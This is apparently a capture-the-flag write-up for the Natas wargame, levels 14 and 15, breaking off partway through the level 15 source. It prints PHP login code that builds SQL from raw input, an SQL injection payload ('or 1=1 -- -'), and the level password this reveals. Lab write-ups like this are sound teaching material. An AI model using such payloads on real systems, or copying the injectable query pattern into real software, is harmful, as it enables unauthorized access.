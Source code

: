 ### natas14

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?> 
```

This is sql injection, when we fill `"` into `username` input, response contain error:

```php
Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/natas/natas14/index.php on line 24
Access denied!
```

Change payload `natas15" or 1=1 -- -` and fill into `username` input:

```
 Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### natas15

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
```